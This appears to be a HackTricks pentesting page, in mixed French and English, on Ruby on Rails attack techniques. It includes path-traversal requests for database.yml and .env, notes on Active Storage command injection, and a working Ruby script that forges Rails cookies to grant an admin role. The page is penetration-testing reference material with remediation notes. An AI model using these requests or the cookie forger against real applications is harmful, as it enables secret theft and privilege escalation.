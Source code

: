 # Astuces Ruby

{{#include ../../banners/hacktricks-training.md}}

## File upload to RCE

Comme expliqué dans [cet article](https://www.offsec.com/blog/cve-2024-46986/), uploading a `.rb` file into sensitive directories such as `config/initializers/` can lead to remote code execution (RCE) in Ruby on Rails applications.

Tips:
- Other boot/eager-load locations that are executed on app start are also risky when writeable (e.g., `config/initializers/` is the classic one). If you find an arbitrary file upload that lands anywhere under `config/` and is later evaluated/required, you may obtain RCE at boot.
- Look for dev/staging builds that copy user-controlled files into the container image where Rails will load them on boot.

## Active Storage image transformation → command execution (CVE-2025-24293)

When an application uses Active Storage with `image_processing` + `mini_magick`, and passes untrusted parameters to image transformation methods, Rails versions prior to 7.1.5.2 / 7.2.2.2 / 8.0.2.1 could allow command injection because some transformation methods were mistakenly allowed by default.

- A vulnerable pattern looks like:
```erb
<%= image_tag blob.variant(params[:t] => params[:v]) %>
```
where `params[:t]` and/or `params[:v]` are attacker-controlled.

- Ce qu'il faut essayer pendant les tests
- Identify any endpoints that accept variant/processing options, transformation names, or arbitrary ImageMagick arguments.
- Fuzz `params[:t]` and `params[:v]` for suspicious errors or execution side-effects. If you can influence the method name or pass raw arguments that reach MiniMagick, you may get code exec on the image processor host.
- If you only have read-access to generated variants, attempt blind exfiltration via crafted ImageMagick operations.

- Remédiation/détections
- If you see Rails < 7.1.5.2 / 7.2.2.2 / 8.0.2.1 with Active Storage + `image_processing` + `mini_magick` and user-controlled transformations, consider it exploitable. Recommend upgrading and enforcing strict allowlists for methods/params and a hardened ImageMagick policy.

## Rack::Static LFI / path traversal (CVE-2025-27610)

If the target stack uses Rack middleware directly or via frameworks, versions of `rack` prior to 2.2.13, 3.0.14, and 3.1.12 allow Local File Inclusion via `Rack::Static` when `:root` is unset/misconfigured. Encoded traversal in `PATH_INFO` can expose files under the process working directory or an unexpected root.

- Hunt for apps that mount `Rack::Static` in `config.ru` or middleware stacks. Try encoded traversals against static paths, for example:
```text
GET /assets/%2e%2e/%2e%2e/config/database.yml
GET /favicon.ico/..%2f..%2f.env
```
Adjust the prefix to match configured `urls:`. If the app responds with file contents, you likely have LFI to anything under the resolved `:root`.

- Mitigation: upgrade Rack; ensure `:root` only points to a directory of public files and is explicitly set.

## Forging/decrypting Rails cookies when `secret_key_base` is leaked

Rails encrypts and signs cookies using keys derived from `secret_key_base`. If that value leaks (e.g., in a repo, logs, or misconfigured credentials), you can usually decrypt, modify, and re-encrypt cookies. This often leads to authz bypass if the app stores roles, user IDs, or feature flags in cookies.

Minimal Ruby to decrypt and re-encrypt modern cookies (AES-256-GCM, default in recent Rails):
```ruby
require 'cgi'
require 'json'
require 'active_support'
require 'active_support/message_encryptor'
require 'active_support/key_generator'

secret_key_base = ENV.fetch('SECRET_KEY_BASE_LEAKED')
raw_cookie = CGI.unescape(ARGV[0])

salt   = 'authenticated encrypted cookie'
cipher = 'aes-256-gcm'
key_len = ActiveSupport::MessageEncryptor.key_len(cipher)
secret  = ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000).generate_key(salt, key_len)
enc     = ActiveSupport::MessageEncryptor.new(secret, cipher: cipher, serializer: JSON)

plain = enc.decrypt_and_verify(raw_cookie)
puts "Decrypted: #{plain.inspect}"

# Modify and re-encrypt (example: escalate role)
plain['role'] = 'admin' if plain.is_a?(Hash)
forged = enc.encrypt_and_sign(plain)
puts "Forged cookie: #{CGI.escape(forged)}"
```
Notes:
- Les applications plus anciennes peuvent utiliser AES-256-CBC et des salts `encrypted cookie` / `signed encrypted cookie`, ou des sérialiseurs JSON/Marshal. Ajustez les salts, cipher, et serializer en conséquence.
- En cas de compromission/évaluation, renouvelez `secret_key_base` pour invalider tous les cookies existants.

## Voir aussi (vulnérabilités spécifiques à Ruby/Rails)

- Désérialisation Ruby et class pollution:
{{#ref}}
../../pentesting-web/deserialization/README.md
{{#endref}}
{{#ref}}
../../pentesting-web/deserialization/ruby-class-pollution.md
{{#endref}}
{{#ref}}
../../pentesting-web/deserialization/ruby-_json-pollution.md
{{#endref}}
- Injection de template dans les moteurs Ruby (ERB/Haml/Slim, etc.):
{{#ref}}
../../pentesting-web/ssti-server-side-template-injection/README.md
{{#endref}}



## Références

- Rails Security Announcement: CVE-2025-24293 Active Storage unsafe transformation methods (fixed in 7.1.5.2 / 7.2.2.2 / 8.0.2.1). https://discuss.rubyonrails.org/t/cve-2025-24293-active-storage-allowed-transformation-methods-potentially-unsafe/89670
- GitHub Advisory: Rack::Static Local File Inclusion (CVE-2025-27610). https://github.com/advisories/GHSA-7wqh-767x-r66v
{{#include ../../banners/hacktricks-training.md}}
